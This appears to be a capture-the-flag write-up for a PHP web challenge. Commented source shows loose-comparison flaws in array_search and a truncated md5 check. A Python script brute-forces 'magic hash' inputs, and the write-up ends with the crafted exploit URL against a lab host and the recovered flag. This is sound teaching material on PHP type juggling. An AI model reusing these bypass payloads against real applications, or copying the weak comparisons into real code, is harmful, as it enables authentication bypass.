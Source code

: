 ```php
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        //array_search — 在数组中搜索给定的值，如果成功则返回相应的键名 
        //mixed array_search( mixed $needle, array $haystack[, bool $strict = false] )
        //第三个参数决定在搜索时是否比较类型，默认不比较，也是这里能够绕过的原因。
        //var_dump(array_search('XIPU', array("0","1",0)));//int(2)
        //0==‘XIPU’为真，搜索到0值的下标为2
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            //两个符合正则  /0e\d+/  的字符串弱相等。
            // 爆破见下方python代码
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

```python
def brute():
    for a in range(0x20, 0x7f):
        for b in range(0x20, 0x7f):
            for c in range(0x20, 0x7f):
                    x = chr(a) + chr(b) + chr(c)+s
                    mm=md5(x.encode('UTF-8')).hexdigest()
                    flag=1
                    for i in mm[10:24]:
                        if i not in '0123456789':
                            flag=0
                            break
                    if flag and mm[8:10]=='0e':
                        print(x)

brute()
# kN[XIPU
# v=|XIPU
# y'wXIPU
# }MOXIPU
# ~VhXIPU
## http://192.168.200.200/web/bestlanguage/?x1=0&x2={%22x21%22:%222018hello%22,%22x22%22:[[],0]}&x3=~VhXIPU
## flag{510ea2879fa29d0d618b1f55350965c3}
```
